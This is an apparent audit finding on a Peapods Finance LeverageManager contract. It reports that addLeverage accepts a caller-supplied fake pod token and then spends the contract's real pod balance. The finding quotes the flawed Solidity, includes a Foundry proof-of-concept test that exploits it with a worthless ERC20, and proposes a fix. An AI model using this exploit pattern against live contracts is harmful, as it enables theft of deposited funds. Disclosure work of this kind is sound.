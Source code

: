 Rich Grey Crocodile

High

# User could specify their own fake pod in addLeverage and steal real pod tokens from the contract

## Vulnerability Details

In `addLeverage` these 2 lines uses the pod address specified by the user to transfer in tokens: https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/lvf/LeverageManager.sol#L90-L91
```solidity
function addLeverage(
    uint256 _positionId,
    address _pod,
    uint256 _pTknAmt,
    uint256 _pairedLpDesired,
    uint256 _userProvidedDebtAmt,
    bool _hasSelfLendingPairPod,
    bytes memory _config
) external override workflow(true) {
@->  uint256 _pTknBalBefore = IERC20(_pod).balanceOf(address(this));
@->  IERC20(_pod).safeTransferFrom(_msgSender(), address(this), _pTknAmt);
     _addLeveragePreCallback(
         _msgSender(),
         _positionId,
         _pod,
-->      IERC20(_pod).balanceOf(address(this)) - _pTknBalBefore,
         _pairedLpDesired,
         _userProvidedDebtAmt,
         _hasSelfLendingPairPod,
         _config
     );
}
```
We can see that it allows the user to specify their pod address and transfer in from that pod address instead of using `positionProps[_positionId].pod`.

It will also treat the "amount" transferred in as `IERC20(_pod).balanceOf(address(this)) - _pTknBalBefore` which is passed on to the other function: `_addLeveragePreCallback`.

However, in `_addLeveragePreCallback` onwards we can see that in this [line](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/lvf/LeverageManager.sol#L291), `_pod` is set to `positionProps[_positionId].pod` and then it starts to use the address of `positionProps[_positionId].pod` afterwards.

## Impact and attack path
Hence, a malicious user could create their own worthless pod address token, specify it in `addLeverage`. Then the contract will pull in the tokens from the fake address, account it as the user has transferred in the intended pod token then carry out the leverage using the contract's pod balance.

Here's a poc for a clearer attack path:  
First go to LeverageManager.t.sol and add the following imports:
```solidity
import "forge-std/console.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract fakeToken is ERC20 {
    constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) {
        _mint(msg.sender, 100000e18);
    }
}
```
Then add:
```solidity
function test_addLeverage() public {
    uint256 pTknAmt = 100 * 1e18;
    uint256 pairedLpDesired = 50 * 1e18;
    bytes memory config = abi.encode(0, 1000, block.timestamp + 1 hours);

    deal(address(peas), address(this), pTknAmt * 100);
    peas.approve(address(pod), peas.totalSupply());
    pod.bond(address(peas), pTknAmt, 0);
    IERC20(pod).transfer(address(leverageManager), pTknAmt); //existing pod token balance of LeverageManager.sol

    vm.startPrank(ALICE);

    // wrap into the pod

    fakeToken fake = new fakeToken("bryh", "bruh");
    fake.approve(address(leverageManager), type(uint256).max);

    uint256 positionId = leverageManager.initializePosition(address(pod), ALICE, address(0), false);

    uint256 alicePodTokenBalanceBefore = pod.balanceOf(ALICE);
    uint256 aliceAssetBalanceBefore = IERC20(dai).balanceOf(ALICE);

    leverageManager.addLeverage(positionId, address(fake), pTknAmt, pairedLpDesired, 0, false, config);

    vm.stopPrank();

    // Verify the position NFT was minted
    assertEq(leverageManager.positionNFT().ownerOf(positionId), ALICE, "Position NFT not minted to ALICE");

    // Verify the state of the LeverageManager contract
    (address returnedPod, address lendingPair, address custodian, bool isSelfLending, bool hasSelfLendingPairPod) =
        leverageManager.positionProps(positionId);
    assertEq(returnedPod, address(pod), "Incorrect pod address");
    assertEq(lendingPair, address(mockFraxlendPair), "Incorrect lending pair address");
    assertNotEq(custodian, address(0), "Custodian address should not be zero");
    assertEq(isSelfLending, false, "Not self lending");
    assertEq(hasSelfLendingPairPod, false, "Self lending pod should be zero");
}
```
Note that the contract will have existing balances of token as it holds the receipt of those staking/LP positions. Hence, this attack can be carried out to steal the existing balance for your leverage, without transferring any real tokens in.

## Recommendation
If the position is already initialized, enforce that `_pod == positionProps[_positionId].pod`.

Basically in [line](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/lvf/LeverageManager.sol#L291):
```diff
function _addLeveragePreCallback(
    address _sender,
    uint256 _positionId,
    address _pod,
    uint256 _pTknAmt,
    uint256 _pairedLpDesired,
    uint256 _userProvidedDebtAmt,
    bool _hasSelfLendingPairPod,
    bytes memory _config
) internal {
    if (_positionId == 0) {
        _positionId = _initializePosition(_pod, _sender, address(0), _hasSelfLendingPairPod);
    } else {
        ....
-       _pod = positionProps[_positionId].pod;
+       require(_pod == positionProps[_positionId].pod);
    }
    ....
}
```